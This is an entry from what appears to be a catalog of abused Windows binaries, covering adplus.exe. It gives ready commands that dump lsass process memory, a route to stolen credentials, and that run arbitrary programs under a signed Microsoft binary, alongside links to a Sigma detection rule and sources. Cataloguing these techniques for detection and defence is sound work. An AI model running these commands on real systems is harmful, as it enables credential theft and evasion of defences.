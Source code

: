 ```yaml
---
Name: adplus.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-09-01
Commands:
  - Command: adplus.exe -hang -pn lsass.exe -o c:\users\mr.d0x\output\folder -quiet
    Description: Creates a memory dump of the lsass process
    Usecase: Create memory dump and parse it offline
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -c config-adplus.xml
    Description: Execute arbitrary commands using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All Windows
  - Command: adplus.exe -c config-adplus.xml
    Description: Dump process memory using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -crash -o "C:\temp\" -sc calc.exe
    Description: Execute arbitrary commands and binaries from the context of adplus. Note that providing an output directory via '-o' is required.
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All windows
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\adplus.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\adplus.exe
Code_Sample:
  - Code: https://gist.github.com/nasbench/e34ca2cd90e3a845a558a102a4f607da
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_adplus.yml
  - IOC: As a Windows SDK binary, execution on a system may be suspicious
Resources:
  - Link: https://mrd0x.com/adplus-debugging-tool-lsass-dump/
  - Link: https://twitter.com/nas_bench/status/1534916659676422152
  - Link: https://twitter.com/nas_bench/status/1534915321856917506
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

